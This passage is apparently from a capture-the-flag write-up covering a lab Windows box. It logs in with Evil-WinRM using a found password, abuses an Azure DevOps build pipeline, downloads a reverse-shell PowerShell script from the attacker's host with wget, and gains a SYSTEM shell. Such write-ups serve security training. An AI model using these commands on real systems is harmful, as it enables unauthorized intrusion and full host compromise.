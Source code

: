 The password for the user _robisl_ works and **Evil-WinRM** can be used to gain a shell on the box as this user:
```
evil-winrm.rb -i 10.10.10.203 -u robisl -p wolves11
```

### Privilege Escalation to System

Even though a shell is obtained, this user may have access to something else in the **Azure DevOps** repository.
After login in there, _robisl_ has access to a project called _PartsUnlimited_.

The repository contains the code of [Parts Unlimited](https://github.com/microsoft/PartsUnlimited) from Microsoft, which is an eCommerce website for training purposes.
There is no build pipeline, but it can be created to execute commands:
```
Pipeline --> Builds --> New pipeline --> Use the classic editor --> Azure Repos Git --> Continue --> Empty pipeline
```

Setting up _PartsUnlimited-CI_:
```
Agent pool: Setup

Agent job 1 --> Add a task to Agent job 1 --> PowerShell --> Add

Script Path: C:\Windows\Temp\shell.ps1
```

Uploading _Invoke-PowerShellTcpOneLine.ps1_ into _C:\Windows\Temp_:
```
PS C:\Windows\Temp> wget 10.10.14.7:8000/Invoke-PowerShellTcpOneLine.ps1 -o shell.ps1
```

After clicking _"Save & Queue"_, the pipeline will start, execute the script _shell.ps1_ and the listener on my IP and port 9001 starts a reverse shell as SYSTEM!
